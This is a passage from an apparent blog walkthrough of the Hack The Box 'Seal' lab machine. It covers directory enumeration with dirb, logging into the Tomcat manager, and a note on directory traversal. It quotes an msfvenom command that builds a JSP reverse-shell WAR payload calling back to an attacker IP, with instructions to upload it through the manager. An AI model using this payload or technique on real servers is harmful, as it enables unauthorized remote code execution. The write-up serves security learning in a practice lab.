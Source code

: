 We then refresh the page. The apparition of a popup would indicate that the application is vulnerable to stored XSS, which isn't the case here.
While we test the app further, we can start a *dirb* enumeration in the background:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_seal_dirb.png)
</div>

We see the directories *manager* and *host-manager* that were mentionned in the ToDo notes. Unfortunately, we can't access any of those. Since we ran *dirb* with the *-r* flag (non recursive search), there might be subdirectories in those directories. Let's launch two other scans within them:

````
sudo dirb https://10.10.10.250/manager
sudo dirb https://10.10.10.250/host-manager
`````
There are indeed subdirectories (*/status*, */text*), and a connection window opens when we try to open *https://10.10.10.250/manager/status*:

<div class="img_container">
![connection]({{https://jsom1.github.io/}}/_images/htb_seal_co.png)
</div>

We can enter the credentials we discovered earlier. Note that I added *seal.htb* into my hosts file (*sudo echo "10.10.10.250 seal.htb" >> /etc/hosts*) because authentication didn't work with the IP for some reason.\\
We land on the Tomcat manager page:

<div class="img_container">
![manager]({{https://jsom1.github.io/}}/_images/htb_seal_manag.png){: height="415px" width = 625px"}
</div>

We see the exact version of Tomcat, so let's see if there is an existing exploit for it:

````
searchsploit tomcat
`````

There are several exploits, but none for this version. We see however an excellent exploit (*tomcat_jsp_upload_bypass*) that I tried to use. I don't include the print screens here because it didn't work. By Googling something like "Tomcat exploit", we find many articles such as https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat, explaining how to exploit Tomcat. In this article, it is said that:

*If you have access to the Tomcat Web Application Manager, you can upload and deploy a .war file (execute code). Payload:\\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war\\
Then, upload the revshell.war file and access to it (/revshell/)*

The problem is we have nothing to upload such a file. I had to look at the forum for help: apparently, the application is vulnerable to **Directory Traversal**. I've seen this kind of vulnerability in a course, but I don't remember exploiting it. A little refresh could be good, so here's what I found about it on the web:

*Directory traversal (or path traversal) is a type of HTTP exploit that is used by attackers to gain unauthorized access to restricted directories and files. It can be used to access directories and files stored outside of the web root folder, such as application source code or configuration and critical system files. This kind of vulnerability is the result of insufficient filtering/validation of browser input from users. It can be located in web server software/files or in application code that is executed on the server. It exists in varrious languages, including Python, PHP, Apache, Perl and more.*
